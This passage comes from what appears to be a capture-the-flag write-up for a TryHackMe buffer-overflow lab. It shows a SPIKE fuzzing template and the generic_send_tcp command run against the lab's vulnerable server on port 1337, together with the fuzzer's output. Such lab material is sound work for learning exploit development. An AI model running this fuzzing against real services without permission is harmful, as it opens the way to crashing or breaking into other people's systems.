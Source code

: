 ```bash
UNKNOWN COMMAND
UNKNOWN COMMAND
^C
```

## Fuzzing

Created the spike template and started fuzzing the server:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ nano OVERFLOW1.spk

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ cat OVERFLOW1.spk
s_readline();
s_string("OVERFLOW1 ");
s_string_variable("0");

┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ generic_send_tcp 10.10.208.211 1337 OVERFLOW1.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 5005
Fuzzing Variable 0:3
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 21
Fuzzing Variable 0:4
line read=Welcome to OSCP Vulnerable Server! Enter HELP for help.
Variablesize= 3
Fuzzing Variable 0:5
Variablesize= 2
Fuzzing Variable 0:6
Variablesize= 7
Fuzzing Variable 0:7
Variablesize= 48
Fuzzing Variable 0:8
Variablesize= 45
Fuzzing Variable 0:9
Variablesize= 49
Fuzzing Variable 0:10
Variablesize= 46
Fuzzing Variable 0:11
Variablesize= 49
Fuzzing Variable 0:12
Variablesize= 46
Fuzzing Variable 0:13
Variablesize= 47
```
